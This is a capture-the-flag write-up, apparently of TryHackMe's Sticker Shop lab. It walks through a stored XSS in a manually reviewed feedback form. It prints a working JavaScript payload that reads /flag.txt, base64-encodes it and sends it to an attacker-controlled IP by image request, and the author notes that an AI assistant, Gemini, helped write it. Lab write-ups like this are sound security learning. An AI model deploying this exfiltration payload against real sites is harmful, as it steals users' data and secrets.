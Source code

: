
- The task is to read content of the  `http://10.10.217.192:8080/flag.txt`

- When I try to access this directory, I see the following:
![401Unauthorized](TryHackMe/images/TheStickerShopCTF-1.png)

- After examining a standard URL and the "Feedback" subsite, I notice a potential XSS vulnerability.
![Website](TryHackMe/images/TheStickerShopCTF-2.png)  
- It seems that comments are reviewed manually, possibly due to weak security policies.
After setting up a Netcat listener and posting a comment like:`<img src=MY_IP:PORT`  
- I can see that my command is executed on the server side.
![terminal1](TryHackMe/images/TheStickerShopCTF-3.png)
With help of Gemini i create a payload like

```html

<script>
  fetch('/flag.txt')
    .then(r => r.text())
    .then(d => {
      const base64 = btoa(d); // Kodowanie Base64
      const img = document.createElement('img');
      img.src = `http://10.14.88.168:1234/${base64}`;
      document.body.appendChild(img);
    })
    .catch(e => {});
</script>
```
Thanks to this, I obtained the flag encoded in Base64.
![terminal2](TryHackMe/images/TheStickerShopCTF-4.png)
Then decoded it  
![terminal3](TryHackMe/images/TheStickerShopCTF-5.png)



